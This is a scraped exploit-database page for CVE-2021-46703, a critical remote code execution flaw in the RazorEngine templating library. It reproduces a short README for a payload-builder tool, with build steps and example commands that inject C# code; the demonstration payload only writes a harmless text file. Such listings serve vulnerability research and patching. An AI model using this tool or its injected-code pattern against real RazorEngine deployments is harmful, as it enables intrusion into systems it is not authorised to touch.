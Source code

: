 ```yaml
---
title: Exploit for Vulnerability in Razorengine Project Razorengine exploit
url: https://sploitus.com/exploit?id=B647D0CC-E3B6-554E-BB4F-6D55CE2C0366&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-08
fetch_date: 2025-10-04T11:36:38.385324
---
```


# Exploit for Vulnerability in Razorengine Project Razorengine exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CVE-2021-46703

2023-05-07 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=B647D0CC-E3B6-554E-BB4F-6D55CE2C0366
# CVE-2021-46703
Simple payload builder based on POC in: https://github.com/Antaris/RazorEngine/issues/585

## Usage

### C#
```bash
dotnet build --configuration Release
.\bin\Release\net4.8\Poc.exe "System.IO.File.WriteAllText(\"rce.txt\", \"Hello World\");"
```
### Python
```bash
./poc.py "System.IO.File.WriteAllText(\"rce.txt\", \"Hello World\");"
```

## Acknowledgements
- https://www.yielddd.com/about-us/discovery-of-a-critical-open-source-vulnerability-cve-2021-46703
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)